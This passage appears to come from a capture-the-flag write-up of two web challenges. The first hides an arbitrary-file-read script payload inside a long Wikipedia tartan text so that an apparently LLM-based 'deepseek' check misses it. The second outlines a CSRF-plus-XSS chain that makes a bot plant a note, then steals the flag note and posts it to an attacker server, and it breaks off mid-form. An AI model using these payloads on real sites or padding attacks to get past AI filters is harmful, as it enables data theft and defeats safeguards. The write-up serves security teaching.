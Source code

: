 So [REDACTED] has this arbitrary file read vuln. Running it locally with deepseek check removed with the payload does let us perform arbitrary file read.
```html
<script>document.REDACTED([REDACTED])</script>
```

So the only work left is to bypass deepseek. The way I gone with is to spam it with the long text of [Tartan article](https://en.wikipedia.org/wiki/Tartan) and hide the one line js in the middle.
```html
<script>
/*Tartan (Scottish Gaelic: breacan [ˈpɾʲɛxkən]) is a patterned cloth consisting of crossing horizontal and vertical bands in multiple colours, forming repeating symmetrical patterns known as setts. Originating in woven wool, tartan is most strongly associated with Scotland, where it has been used for centuries in traditional clothing such as the kilt. Historically, specific tartans were linked to Scottish clans, families, or regions, with patterns and colours derived from local dyes. The earliest surviving samples of tartan-style cloth are around 3,000 years old and were discovered in Xinjiang, China.
[many many lines]
The Cockburn Collection of 56 tartan samples (some of them duplicates) was put together between 1810 and c. 1825 (most likely 1816–25)[516][398] by Lt.-Gen. Sir William Cockburn, and is now in the Mitchell Library in Glasgow.[398][517] This collection does ascribe particular family names to many of these setts (probably naming them after prominent individuals),[516] but only sometimes corresponding to current clan tartan associations (indeed, some patterns that are today associated with particular clans were given multiple different names in the Cockburn Collection).[bt] There are many conflicts in name-to-pattern associations between this collection and that of the Highland Society of London around the same time.[516]
*/document.REDACTED([REDACTED])/*
Even David Stewart of Garth, who was to become one of the chief proponents of the idea of clan tartans, observed in 1814 only that various heads of families seemed to have selected personal tartans and that there were also district tartans.[519] When Garth and his Highland Society of London solicited clan tartans from chiefs in 1815 (see below), Col. Alexander Robertson of Struan, Chief of Clan Robertson/Donnachaidh/Duncan, wrote back:[520]
[many many lines]
*/
</script>
```
![image](https://github.com/user-attachments/assets/80320d3b-4cd1-4f2a-b4b1-84598862423a)  
![image](https://hackmd.io/_uploads/SkzmVmOZxl.png)

### S1MPL3 N0T3S
It's a web challenge with a bot, which means it's a XSS challenge. The bot will create a note each time on login, which contain the flag. One thing to note is that report doesn't have any host filtering and it's possible to make the bot visit any URL.

After a few hours pondering this seemingly impossible challenge, I devised the following attack plan:
1. Let bot create note 1 (flag), then from our server, CSRF make bot create malicious note 2.
2. Enable unsafe for note 2 and redir to it, and once our note 2 XSS is run, it fetch note 1 content and post to attacker server.

We host all the html payloads on our server, and send the bot first stage to create a malicious note under its account.
```html
<!DOCTYPE html>
<html>

<head>
    <title>Stage 1: Create XSS Note</title>
</head>

<body onload="document.csrfForm.submit()">
    <p>Stage 1: Creating malicious note...</p>
    <form name="csrfForm" method="POST" action="http://127.0.0.1:7189/dashboard">
        <input type="hidden" name="content" id="xss_payload_content">
```